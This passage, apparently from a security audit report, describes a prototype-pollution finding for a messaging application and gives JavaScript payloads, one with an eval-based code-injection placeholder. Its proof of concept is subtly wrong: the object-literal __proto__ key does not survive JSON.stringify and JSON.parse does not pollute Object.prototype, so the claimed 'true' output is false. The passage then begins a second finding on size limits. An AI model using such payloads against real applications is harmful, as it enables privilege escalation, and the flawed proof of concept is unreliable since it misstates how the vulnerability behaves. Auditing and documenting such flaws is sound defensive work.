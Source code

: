 Attacker can craft malicious JSON that exploits deserialization:

```javascript
// Malicious message object
const maliciousMessage = {
  text: "Hello",
  __proto__: {
    isAdmin: true,
    // Prototype pollution
  },
  constructor: {
    prototype: {
      toString: function() {
        // Code injection
        return eval(maliciousCode);
      }
    }
  }
};
```

**Proof of Concept:**

```javascript
// Prototype pollution via message
const payload = {
  text: "Click this link!",
  metadata: {
    __proto__: {
      isAdmin: true,
      securityLevel: "admin"
    }
  }
};

// After decryption and deserialization:
const msg = JSON.parse(JSON.stringify(payload));
console.log(({}).isAdmin);  // true - prototype polluted!
```

**Impact:**
- Prototype pollution
- Potential code execution
- Application state manipulation

---

### 6.2 MEDIUM: Missing Content-Length Limits

**Severity:** MEDIUM  
**CVSS Score:** 5.5

**Vulnerability Description:**

Message content has size limits in Express (10MB), but no application-level validation:
